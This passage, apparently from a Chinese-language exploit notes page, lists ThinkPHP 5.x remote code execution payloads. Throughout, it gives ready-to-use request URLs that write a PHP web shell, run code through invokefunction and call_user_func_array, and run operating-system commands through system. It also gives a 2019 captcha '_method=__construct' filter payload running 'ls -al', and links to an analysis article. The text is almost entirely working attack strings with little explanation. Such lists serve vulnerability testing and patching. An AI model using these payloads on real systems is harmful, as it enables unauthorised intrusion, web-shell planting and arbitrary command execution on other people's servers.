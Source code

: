```url

3、文件写入（写shell）：
http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E

4、未知:
http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E

5、代码执行:
http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

6、命令执行:
http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令

7、代码执行:
http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

8、命令执行:
http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令
```

2019.1.11爆出的漏洞：

```php
index.php?s\captcha

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al
```

分析文章来自[这里](<http://www.lmxspace.com/2019/01/13/ThinkPHP-request%E5%87%BD%E6%95%B0%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/>)




























